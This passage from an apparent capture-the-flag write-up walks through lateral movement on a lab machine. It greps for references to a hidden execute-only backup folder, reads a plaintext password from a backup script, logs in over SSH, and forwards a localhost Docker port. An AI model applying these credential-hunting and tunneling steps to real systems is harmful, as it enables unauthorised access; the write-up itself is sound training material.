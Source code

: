 In the home folder of the user _marcus_ is a hidden _/.backup_ folder, that has only the **execute bit** set and no permissions to list the contents:
```
d--x--x--x 2 marcus marcus 4096 Nov 10  2020 .backup
```

We can search for other files that reference this directory to get a potential filename that can be read:
```
grep -Ri '\.backup' /home/ 2>/dev/null

grep -Ri '\.backup' /etc/ 2>/dev/null
```

The file _/etc/systemd/system/cacti-backup.service_ is found, which is a service that reveals a filename in the _.backup_ directory:
```
[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh
```

The file _/home/marcus/.backup/backup.sh_ can be read and it contains credentials:
```
backup_name="cacti_backup"
config_pass="VerticalEdge2020"

(...)
```

The password does work for the user _marcus_ to login via SSH:
```
ssh marcus@10.10.10.238
```

### Privilege Escalation 2

In the home directory of _marcus_ is _note.txt_ and there is a ToDo list with a task to-be-done:
```
Update docker image for production use
```

The user is not a member of groups to manage **Docker containers**, but the running container can be seen in the processes:
```
ps -ef | grep docker
```
```
root    2203    1650    /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

By checking the listening connections with `ss -lnpt`, it shows that port 8443 is listening on localhost.

Forwarding port 8443 to our local client with the **SSH command line**:
```
ssh> -L8443:127.0.0.1:8443
Forwarding port.
```
